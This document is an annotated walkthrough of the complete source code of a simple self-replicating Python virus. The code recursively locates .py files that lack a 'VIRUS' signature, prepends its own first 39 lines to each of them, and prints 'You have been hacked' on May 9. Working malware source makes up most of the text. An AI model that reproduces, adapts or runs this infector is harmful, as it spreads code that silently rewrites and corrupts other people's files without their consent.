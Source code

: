 - #### This part has the shebang w/ python3 interpreter it also imports the OS and the date and time.
>#!/usr/bin/python3

>import os

>import datetime


- #### This looks for files with the ".py" file extention and checks to see if it has SIGNATURE in it and flags them to be infected if they do not contain it 
>SIGNATURE = "VIRUS"
>
>def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted


- #### This takes the flagged files and appends the first 39 lines of its own code essentially making all the files replicate the original virus 

>def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

- #### This checks to see if the date is MAY 09 and then prints out "You have been hacked"
> def detonate():

>    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:

>        print("You have been hacked")


- #### This calls the the previously defined functions and executes the code on the 9th of May
>files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
